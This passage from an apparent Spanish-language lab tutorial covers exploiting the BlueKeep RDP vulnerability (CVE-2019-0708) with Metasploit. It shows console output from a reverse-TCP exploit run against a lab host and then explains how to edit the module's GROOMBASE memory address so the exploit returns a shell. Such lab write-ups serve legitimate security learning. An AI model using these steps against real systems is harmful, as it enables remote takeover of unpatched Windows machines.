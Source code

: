 ```
[*] Started reverse TCP handler on 192.168.16.128:4444 
[*] 192.168.16.132:3389 - Running automatic check ("set AutoCheck false" to disable)
[*] 192.168.16.132:3389 - Using auxiliary/scanner/rdp/cve_2019_0708_bluekeep as check
[+] 192.168.16.132:3389   - The target is vulnerable. The target attempted cleanup of the incorrectly-bound MS_T120 channel.
[*] 192.168.16.132:3389   - Scanned 1 of 1 hosts (100% complete)
[+] 192.168.16.132:3389 - The target is vulnerable. The target attempted cleanup of the incorrectly-bound MS_T120 channel.
[*] 192.168.16.132:3389 - Using CHUNK grooming strategy. Size 250MB, target address 0xfffffa8028608000, Channel count 1.
[!] 192.168.16.132:3389 - <---------------- | Entering Danger Zone | ---------------->
[*] 192.168.16.132:3389 - Surfing channels ...
[*] 192.168.16.132:3389 - Lobbing eggs ...
[*] 192.168.16.132:3389 - Forcing the USE of FREE'd object ...
[!] 192.168.16.132:3389 - <---------------- | Leaving Danger Zone | ---------------->
[*] Exploit completed, but no session was created.
```

Por lo que vemos nos dice que si ha funcionado el exploit, pero que ha tenido que haber algun tipo de problema por que no nos ha proporcionado la `shell`.

Esto pasa por que como bien hemos visto antes, es un `exploit` manual, por lo que va a requerir de un cambio de forma manual en el codigo o en alguna parte para que esto funcione, si lo volvieramos a ejecutar la maquina `windows` daria un error como una `denegacion de servicio` poniendo que se intento hacer una `paginacion`, por lo que tendremos que cambiar una cosa del codigo para que cuando injecte la `shell` la injecte en un sitio donde no `pagine` esta memoria y asi no de un error y podamos obtener una `shell`.

Por lo que nos iremos a una terminal nueva de `kali` para abrir el codigo y hacerle unas pequeñas modificaciones.

```shell
cd /usr/share/metasploit-framework/modules/exploits/windows/rdp
```

Y abrimos el `exploit` con el `nano`:

```shell
nano cve_2019_0708_bluekeep_rce.rb

#Dentro del nano

[
            # This address works on VMWare 15.1
            'Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - VMWare 15.1)',
            {
              'Platform' => 'win',
              'Arch' => [ARCH_X64],
              'GROOMBASE' => 0xfffffa8018c08000
            }
],
```

En muchas ocasiones nos comenta este `exploit` que en la direccion de memoria donde esta depositando la `shell` y esta realizando la `paginacion` no es la que coincide con nuestra maquina atacante, por lo que nosotros tendremos que cambiar de forma manual esta direccion de memoria para que pueda hacer la `paginacion` de forma buna y asi nos proporcione la `shell` sin ningun tipo de error.
